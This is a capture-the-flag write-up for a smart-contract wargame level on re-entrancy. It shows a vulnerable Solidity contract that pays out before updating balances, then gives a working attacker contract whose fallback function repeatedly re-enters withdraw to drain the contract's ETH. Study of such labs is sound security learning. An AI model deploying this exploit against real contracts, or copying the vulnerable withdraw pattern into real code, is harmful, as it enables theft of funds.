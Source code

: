 # **Level 10 -- Re-entrancy**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
---
## ***Objectives***
* Withdraw all the ETH in the contract
---
## ***Thought Process***
Use re-entrancy attck
---
## ***Solution***
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

contract ReAttacker {
    address public to;
    function deposit(address _to) external payable {
        to = _to;
        Reentrance(payable(to)).donate.value(msg.value)(address(this));
    } 

    function withdraw() external {
        Reentrance(payable(to)).withdraw(0.01 ether);
    }

    fallback() external payable {
        Reentrance(payable(to)).withdraw(0.01 ether);
    }
}
```




